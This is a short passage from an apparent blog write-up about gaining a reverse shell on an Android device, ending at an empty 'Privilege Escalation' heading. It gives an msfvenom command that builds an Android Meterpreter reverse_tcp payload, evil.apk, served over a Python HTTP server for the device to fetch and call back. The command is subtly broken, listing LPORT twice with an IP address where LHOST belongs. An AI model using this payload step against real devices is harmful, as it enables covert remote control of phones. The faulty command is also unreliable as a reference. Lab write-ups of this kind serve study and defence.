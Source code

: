 ### Gaining reverse shell 

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*7_m4dF9OqBjePqqRyJ1O-g.jpeg)

Although we can easily get a reverse shell with `nc`, I wasn't quite satisfied with it. I wanted something more, which was both easy to use and provided more functionality.

The best and easiest option out there was, of course, our beloved Metasploit Android Meterpreter. And so I created a meterpreter payload and served it on port 8080 using a Python HTTP server.

!!! Note
I am doing this locally, thats why my IP is in `192.168.X.X` range. 
!!!

```
msfvenom -p android/meterpreter/reverse_tcp LPORT=192.168.43.22 LPORT=4444 > evil.apk 
```

![Reverse shell connected](/assets/img/magisk_modules/magisk_exploit_env.png)

### Privilege Escalation 
